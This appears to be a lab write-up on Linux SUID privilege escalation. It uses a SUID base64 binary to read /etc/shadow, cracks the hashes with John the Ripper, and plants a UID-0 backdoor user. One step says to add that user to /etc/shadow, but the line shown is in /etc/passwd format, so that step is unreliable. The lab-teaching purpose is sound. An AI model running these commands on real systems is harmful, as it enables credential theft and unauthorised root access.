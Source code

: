 ## Privilege Escalation: SUID

list files that have SUID or SGID bits set.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Result:
```bash
...
/usr/bin/base64
...
```

Find it in https://gtfobins.github.io/#+suid

https://gtfobins.github.io/gtfobins/base64/

Read shadow file

```bash
base64 /etc/shadow | base64 -d
```

### Crack unshadowed hash

Do unshadow to make a file crackable by john

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

```bash
john passwords.txt --wordlist=/opt/wordlists/rockyou.txt
```

### Add new user in /etc/shadow

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

```bash
openssl passwd -1 -salt THM 321
```

Add the line to `/etc/shadow`

```bash
hacker:$1$THM$3Aq6va4C7LDoWkD95QXUI0:0:0:root:/root:/bin/bash
```

Switch to the backdoor user on target

```bash
su hacker
```

### Answers
